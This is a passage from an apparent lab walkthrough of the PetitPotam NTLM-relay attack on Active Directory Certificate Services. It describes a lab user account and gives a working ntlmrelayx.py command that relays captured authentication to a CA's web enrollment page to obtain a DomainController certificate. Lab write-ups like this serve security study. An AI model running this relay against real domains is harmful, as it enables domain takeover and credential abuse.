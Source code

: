 ## 5. normal user account (Lab\JohnSmith)
A regular domain user with no special privileges.

![John-Smith-User](/assets/petitpotam/John-Smith-User.jpg)

---

# Steps to Create
## 1. Set up NTLM Relay on our attacker host to forward the captured authentication to ADCS Web UI
```bash
ntlmrelayx.py -t http://<CA_Server>/certsrv/certfnsh.asp -smb2support --adcs --template DomainController
```

![ntlm-relay-start](/assets/petitpotam/ntlm-relay-start.jpg)
